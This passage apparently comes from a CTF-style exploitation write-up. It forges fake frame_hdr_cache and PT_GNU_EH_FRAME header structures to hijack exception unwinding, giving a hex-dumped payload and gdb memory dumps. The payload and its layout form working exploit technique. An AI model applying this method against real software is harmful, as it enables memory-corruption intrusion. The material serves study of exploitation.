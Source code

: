 This gives us this:

<pre class="toolbar:2 nums:false lang:default decode:true">*frame_hdr_cache_head:
 | pc_low = 0x00000000
 | pc_high = 0xFFFFFFFF
 | load_base = 0x00000000
 | p_eh_frame_hdr = 0x40025034
 | p_dynamic = 0x43434343
 | link = 0x00000000</pre>

For **p\_eh\_frame_hdr** struct, we only care about **p_vaddr** which is used to calculate **hdr** (unw\_eh\_frame_hdr).

<pre class="toolbar:2 nums:false lang:default decode:true">*p_eh_frame_hdr:
 | p_type = 0x6474e550
 | p_offset = 0x44444444
 | p_vaddr = 0x40025054
 | p_paddr = 0x45454545
 | p_filesz = 0x46464646
 | p_memsz = 0x47474747
 | p_flags = 0x48484848
 | p_align = 0x49494949</pre>

Let&#8217;s see in action.

<pre class="nums:false lang:default highlight:0 decode:true" title="payload">00000000  73 74 64 63 68 70 69 65  0a 41 18 b1 2e 40 1c 50  |stdchpie.A...@.P|
00000010  02 40 41 41 41 41 41 42  41 42 42 42 00 00 00 00  |.@AAAAABABBB....|
00000020  ff ff ff ff 00 00 00 00  34 50 02 40 43 43 43 43  |........4P.@CCCC|
00000030  00 00 00 00 50 e5 74 64  44 44 44 44 54 50 02 40  |....P.tdDDDDTP.@|
00000040  45 45 45 45 46 46 46 46  47 47 47 47 48 48 48 48  |EEEEFFFFGGGGHHHH|
00000050  49 49 49 49                                       |IIII|</pre>

<pre class="nums:false lang:default highlight:0 decode:true" title="output">Breakpoint 1, 0x0804901a in ?? ()
(gdb) x/20wx 0x402eb118
0x402eb118:     0x4002501c      0x00000000      0x402cf000      0x402e9038
0x402eb128:     0x402cf000      0x402cf0b4      0x402cf074      0x402eb168
0x402eb138:     0x401e5000      0x402c1086      0x401e5000      0x401e50d4
0x402eb148:     0x401e5074      0x402eb120      0x08048000      0x08049840
0x402eb158:     0x00000000      0x080480f4      0x080480b4      0x402eb138
(gdb) x/20wx 0x4002501c
0x4002501c:     0x00000000      0xffffffff      0x00000000      0x40025034
0x4002502c:     0x43434343      0x00000000      0x6474e550      0x44444444
0x4002503c:     0x40025054      0x45454545      0x46464646      0x47474747
0x4002504c:     0x48484848      0x49494949      0x00000000      0x00000000
0x4002505c:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb) x/20wx 0x40025034
0x40025034:     0x6474e550      0x44444444      0x40025054      0x45454545
0x40025044:     0x46464646      0x47474747      0x48484848      0x49494949
0x40025054:     0x00000000      0x00000000      0x00000000      0x00000000
0x40025064:     0x00000000      0x00000000      0x00000000      0x00000000
0x40025074:     0x00000000      0x00000000      0x00000000      0x00000000</pre>
